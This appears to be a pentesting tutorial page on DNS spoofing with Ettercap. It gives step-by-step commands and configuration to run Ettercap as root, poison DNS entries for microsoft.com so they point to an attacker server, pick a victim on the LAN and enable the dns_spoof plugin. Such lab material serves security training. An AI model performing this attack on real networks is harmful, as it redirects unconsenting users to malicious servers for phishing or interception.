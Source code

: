# DNS

## DNS Spoofing

Domain Name Server (DNS) spoofing, or DNS cache poisoning, is an attack involving manipulating DNS records to redirect users toward a fraudulent, malicious website that may resemble the user's intended destination.



***

## Practical

### Modify etter.conf

```
sudo nano /etc/ettercap/etter.conf

# Change the [privs] value to 0
ec_uid = 0
ec_gid = 0
```

### Modify etter.dns

```
sudo nano /etc/ettercap/etter.dns

# Add the following lines for dns poisoning
microsoft    A    <Attacker Server IP>
*.mirosoft    A    <Attacker Server IP>
```

### Start Apache2 Server

```
sudo service apache2 start
```

### DNS Spoofing Using Ettercap

1. **Start Ettercap**

```
sudo ettercap -G
```

2. **Scan for Hosts**

```
Click on three dots in the right top corner

Click on Hosts -> Scan for hosts
```

3. **List Scanned Hosts**

```
Click on three dots in the right top corner

Click on Hosts list
```

3. **Add Targets**

```
Select the target and Add to Target1
```

4. **Activate dns\_spoof Plugin**

```
Click on three dots in the right top corner

Click on Plugins -> Manage plugins

Double click on dns_spoof
```

{% hint style="info" %}
Now when the victim visits the **microsoft.com** then he/she will be redirected to our malicious server.
{% endhint %}
